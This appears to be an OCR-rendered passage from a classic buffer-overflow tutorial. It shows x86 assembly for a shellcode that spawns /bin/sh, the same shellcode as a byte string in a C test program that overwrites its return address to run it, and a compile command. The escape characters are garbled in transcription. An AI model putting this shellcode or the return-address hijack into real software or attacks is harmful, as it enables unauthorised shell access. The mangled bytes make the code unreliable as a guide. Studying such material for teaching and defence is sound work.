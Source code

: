 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%ebx,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%ebx,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;inc&nbsp; &nbsp; %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;-0x24&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;.string ""/bin/sh""&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 8 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 46 bytes total

");

}

------------------------------------------------------------------------------

&nbsp; &nbsp;And our new test program:

testsc2.c

------------------------------------------------------------------------------

char shellcode[] =

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xeb"x1f"x5e"x89"x76"x08"x31"xc0"x88"x46"x07"x89"x46"x0c"xb0"x0b"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"x31"xdb"x89"xd8"x40"xcd"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x80"xe8"xdc"xff"xff"xff/bin/sh";

void main() {

&nbsp; &nbsp;int *ret;

&nbsp; &nbsp;ret = (int *)&amp;ret + 2;

&nbsp; &nbsp;(*ret) = (int)shellcode;

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o testsc2 testsc2.c
  